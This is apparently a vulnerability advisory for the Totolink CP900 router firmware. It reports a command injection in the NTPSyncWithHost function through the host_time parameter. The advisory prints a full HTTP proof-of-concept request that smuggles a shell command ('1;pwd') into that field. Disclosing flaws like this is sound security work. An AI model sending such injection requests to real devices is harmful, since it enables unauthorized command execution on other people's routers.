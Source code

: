 ## Totolink CP900 command injection

### Overview

* Vendor: TOTOLINK

* Product: Totolink CP900
* Version: V6.3c.1144_B20190715

* Manufacturer's address：https://www.totolink.net/
* Firmware download address ：https://totolink.id/data/upload/20190823/72f2e599854470f5752826473d74b7e0.zip

### Vulnerability details

Totolink CP900 V6.3c.1144_B20190715 was found to contain a command injection vulnerability in the `NTPSyncWithHost` function via the `host_time` parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.

![image](./img/1.png)

![image](./img/2.png)

#### PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 133
Origin: http://192.168.0.254
Connection: close
Referer: http://192.168.0.254
Cookie: SESSION_ID=2:1801026000:2

{
    "topicurl": "NTPSyncWithHost",
    "host_time": "'1;pwd'"
}
```

